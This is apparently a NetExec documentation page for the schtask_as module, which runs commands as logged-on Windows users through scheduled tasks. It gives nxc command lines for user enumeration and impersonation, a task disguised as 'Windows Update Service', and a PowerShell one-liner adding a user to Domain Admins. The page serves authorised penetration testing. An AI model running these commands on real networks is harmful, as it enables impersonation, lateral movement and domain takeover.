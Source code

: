 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# 🆕 Impersonate logged-on Users



{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

```
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. Execute commands on behalf of other users

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>


### 3. Module options: 
```
TASK - Change the task name
FILE - Change the file name
LOCATION change the location where files will be written to on the host
```

Example:
```
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```


Custom command to add a user to the domain admin group for easy copy\&pasting:&#x20;

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
